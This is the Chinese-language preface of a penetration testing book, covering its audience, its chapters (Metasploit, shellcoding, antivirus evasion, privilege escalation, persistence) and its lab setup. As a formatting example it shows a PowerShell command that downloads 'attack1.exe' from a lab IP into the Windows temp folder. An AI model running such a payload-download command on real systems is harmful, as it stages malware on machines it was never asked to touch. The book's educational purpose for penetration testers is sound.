

# 前言

也许你刚刚完成了一期关于道德黑客的训练营，但仍然无法满足。也许你是一名管理员，意识到是时候了解坏人如何利用这些黑暗技术。也可能是有人误解了你对喜欢鸟窝的热情，在你生日时送了你这本书。无论你是谁（最后那位除外），这本书都适合你。但为什么选择这本书呢？

坦率地说：这个主题往往很枯燥。有时候，感觉作者只是告诉我们事实，提供了讨论中涉及的概念的基础信息。我认为，如果感觉更像是一个互动式学习会话而不是一堂讲座，体验会更愉快。因此，我努力以更加对话和放松的方式讨论渗透测试。阅读这本书应该感觉我们只是在实验室里一起探索这些概念。我想现在的孩子们称之为“共振”。我得问问我的侄女们。

这本书不适合完全的初学者，但适合不同经验水平的人。总体而言，假设你在信息技术和网络安全方面有一些经验和教育。这本书不会“教你如何入侵”，事实上，许多实验室展示的是旧攻击，不太可能在现实环境中成功。然而，它们提供的基础概念仍然非常相关。这些课程对于那些希望理解核心概念并将其转化为现代攻击的人将是有价值的。这本书强调理解而不是盲目跟随步骤。

# 这本书适合谁

这本书适合渗透测试人员、IT 专业人员以及在展示了在训练营中获得的高级技能后转入渗透测试角色的个人。具有 Windows、Linux 和网络方面的先前经验会很有帮助。

# 这本书涵盖了什么

*第一章*，*开放源情报*，介绍了如何利用公开可用的资源，如 Google，收集关于目标的令人惊讶的有用信息。

*第二章*，*绕过网络访问控制*，检查了如何根据系统的“外观”控制网络访问，并且我们如何调整这种外观。

*第三章*，*嗅探与欺骗*，探索了拦截数据流（或空中数据）并动态操纵数据的世界。

*第四章*，*网络中的 Windows 密码*，审查了 Windows 在网络身份验证过程中管理密码的方式以及如何拦截这些尝试。

*第五章*，*评估网络安全*，提供了一个关于网络分析和使用 Nmap 进行漏洞评估的速成课程，进一步讲解了如何截获数据并注入我们自己的数据，同时回顾了在今天 IPv4 仍占主导地位的世界中 IPv6 的应用。

*第六章*，*密码学与渗透测试*，探讨了如何利用密码学实现中的漏洞进行攻击。

*第七章*，*使用 Metasploit 进行高级利用*，深入探讨了 Metasploit 的内部工作原理，以及如何将 Metasploit 生成的有效载荷与其他优秀工具（如 Shellter）结合使用。

*第八章*，*Python 基础*，从渗透测试者的角度提供了 Python 的速成课程。这一基础知识在本书后续章节中非常有用。

*第九章*，*PowerShell 基础*，同样提供了一个脚本语言 PowerShell 的速成课程。这一基础知识在后续实验中也会非常有用。

*第十章*，*Shellcoding – 栈*，回顾了栈的工作原理及其如何被操控。

*第十一章*，*Shellcoding – 绕过防护*，基于*第十章*中的栈基础，*Shellcoding – 栈*，探讨了防御者如何应对这些攻击，以及诸如面向返回的编程（ROP）等攻击如何在这些应对措施面前做出调整。

*第十二章*，*Shellcoding – 避开杀毒软件*，探讨了当我们利用 PowerShell“生存”时，如何让反恶意软件工具感到困惑，以及 Shellter 动态注入方法的替代方案：洞跳。

*第十三章*，*Windows 内核安全*，为我们提供了关于如何发现内核弱点的基础知识，并探讨了真实世界中的示例。

*第十四章*，*模糊测试技术*，提供了模糊测试方法论的实际回顾，以及如何根据测试结果指导漏洞开发。

*第十五章*，*超越立足点*，探讨了在我们最终在目标系统中建立初步立足点后，如何进行侦察和从这个特权位置进一步发动攻击的步骤。

*第十六章*，*提升特权*，更深入地探讨了我们如何使用 Metasploit 在本地提升特权，以及如何在我们不知道密码的情况下找到并使用密码。

*第十七章*，*保持访问权限*，探讨了在成功进入目标环境后，如何保持访问权限，包括利用目标内置功能和专门工具建立抗重启的访问权限。

*答案* 可以通过提供每章末尾测试题的答案来帮助你检查自己的知识。

# 为了从本书中获得最大收益

本书的目的是尽可能强调 Kali 的现成功能。许多商业产品没有被提及，或者如果提到的话，实验室中会回顾免费的替代品（例如，免费的 Shellter 版本与 Shellter Pro）。今天的专业渗透测试员拥有丰富的优秀商业工具，但你可以仅凭现有的免费工具成为一名有效的渗透测试员。根据《黑客宣言》，这也是我们在这些讨论中的初衷。

本书使用的 Kali Linux 版本是 2021.1；然而，在接近出版日期时，我使用了 2022.1 版本进行实验室测试，未发现任何问题。处理器和栈的讨论假定为 32 位操作系统。

Kali Linux 可以免费下载。然而，Windows 是收费操作系统。幸运的是，微软提供了 Windows Server 的评估版以及 Windows 7 和 10 的 Edge 开发者版；这些版本被用作实验室中的 Windows 目标。

使用的虚拟化软件是 VMware Workstation，它是收费软件。你可以使用免费的 Oracle VirtualBox 构建类似的环境。



*Windows Server 的评估版可以从* [`www.microsoft.com/en-us/evalcenter/download-windows-server-2016`](https://www.microsoft.com/en-us/evalcenter/download-windows-server-2016) *下载*。

*Windows 7 或 10 的开发者版可以从* [`developer.microsoft.com/en-us/microsoft-edge/tools/vms/`](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) *下载*。

# 下载彩色图片

我们还提供了一个 PDF 文件，里面包含本书中截图和图表的彩色图片。你可以在此下载：[`packt.link/7UGEZ`](https://packt.link/7UGEZ)。

# 使用的约定

本书中使用了多种文本约定。

**文本中的代码**：表示文本中的代码词、数据库表名、文件夹名、文件名、文件扩展名、路径名、虚拟 URL、用户输入和 Twitter 账号。例如：“你也可以使用 `from [module] import` 来选择你需要的属性。”

一段代码如下所示：

```
11000000.10101000.01101001.00000000
```

```
          Network           Hosts
```

当我们希望特别指出代码块中的某部分时，相关行或项目会加粗显示：

```
11111111.11111111.11100000.00000000
```

```
   255     255      224       0
```

任何命令行输入或输出都按以下方式书写：

> (New-Object System.Net.WebClient).DownloadFile(“http://192.168.63.143/attack1.exe”, “c:\windows\temp\attack1.exe”)

**粗体**：表示新术语、重要词汇或屏幕上显示的词语。例如，菜单或对话框中的词语通常以**粗体**显示。以下是一个例子：“导航到**主机** | **Nmap 扫描** | **快速扫描（操作系统检测）**。”

提示或重要说明

显示如上所示。

# 联系我们

我们始终欢迎读者的反馈。

**一般反馈**：如果你对本书的任何内容有疑问，请通过电子邮件联系我们：customercare@packtpub.com，并在邮件主题中注明书名。

**勘误表**：虽然我们已尽最大努力确保内容的准确性，但错误偶尔会发生。如果你在本书中发现错误，感谢你能向我们反馈。请访问[www.packtpub.com/support/errata](https://www.packtpub.com/support/errata)并填写表单。

**盗版**：如果你在互联网上发现我们作品的任何非法复制版本，感谢你能提供该位置地址或网站名称。请通过电子邮件联系 copyright@packt.com，并附上相关材料的链接。

**如果你有兴趣成为作者**：如果你在某个领域有专长，且有兴趣撰写或参与书籍的编写，请访问[authors.packtpub.com](https://authors.packtpub.com)。

# 分享你的想法

阅读完*《从零开始的 Windows 和 Linux 渗透测试》*后，我们非常希望听到你的反馈！请[点击这里直接前往亚马逊的评价页面](https://packt.link/r/1801815127)，并分享你的意见。

你的评论对我们和技术社区非常重要，将帮助我们确保提供优质的内容。
